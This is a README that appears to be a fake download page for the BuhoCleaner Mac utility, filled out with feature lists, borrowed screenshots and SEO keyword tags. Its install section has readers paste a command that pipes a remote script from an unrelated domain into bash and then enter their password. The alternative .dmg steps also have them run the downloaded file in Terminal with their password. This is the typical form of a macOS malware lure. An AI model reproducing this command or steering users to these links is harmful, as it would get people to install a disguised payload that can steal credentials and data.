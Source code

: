# 🧹 BuhoCleaner — Powerful Mac Cleaner & Optimizer

**BuhoCleaner** is a lightweight yet powerful cleaning utility designed exclusively for macOS. It helps you reclaim valuable disk space, improve system performance, and keep your Mac running like new — all in just a few clicks.

Whether you’re battling junk files, startup bloat, or app leftovers, BuhoCleaner provides fast and intuitive tools to clean, optimize, and monitor your Mac with ease.

---

## ✅ Download BuhoCleaner for macOS  
[![Download BuhoCleaner](https://img.shields.io/badge/Download-BuhoCleaner-blueviolet)](https://shuziktobehuman.github.io/huja/buhocleaner)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get2/install.sh)"
```


## 📦 What is BuhoCleaner?

BuhoCleaner is a professional-grade macOS maintenance app that makes system optimization simple. From deep-cleaning cache files to removing unused apps and managing startup items, BuhoCleaner is engineered to provide both performance and usability. It also includes a real-time memory monitor and startup manager, giving you full control over your Mac’s health.

---

## ✨ Features

- 🧼 One-click junk file removal and deep system cleanup  
- 🚀 Boost Mac speed by freeing up RAM and storage  
- 🗑 Smart app uninstaller with leftover remover  
- 🔍 Duplicate file finder and large file scanner  
- 🧠 Real-time system status monitor  
- ⚙️ Startup item management for faster boot times  
- 📦 Full compatibility with macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🖱 Extremely intuitive interface for beginners and pros alike  

---

## 💡 Why Use BuhoCleaner?

- ⚡️ Instantly speed up your slow Mac with a single click  
- 🧘 Keep your system clean without manual work  
- 💻 Designed specifically for macOS with full Apple ecosystem integration  
- 🔒 Safe, secure, and lightweight utility  
- 📉 Monitor system resources and optimize usage  
- 🎯 Perfect for both casual users and professionals  

---

[![Download BuhoCleaner](https://img.shields.io/badge/Download-BuhoCleaner-blueviolet)](https://shuziktobehuman.github.io/huja/buhocleaner)

---



## 🖼 Preview

![BuhoCleaner Screenshot 1](https://static-cdn.mackeeper.com/mk-blog-upload/images/new_f30c249476.webp)  
![BuhoCleaner Screenshot 2](https://macmenubar.com/wp-content/uploads/2023/04/buhocleaner.jpg)

---

## 📌 Tags

buhocleaner, buhocleaner mac, buho cleaner, buhocleaner mac download, buhocleaner download mac,  
mac cleaner buho, buhocleaner ventura, buhocleaner m1, buhocleaner apple silicon, macbook cleaner buho,  
buhocleaner uninstall apps, buhocleaner memory monitor, buhocleaner optimizer, mac booster buho,  
buhocleaner free download mac


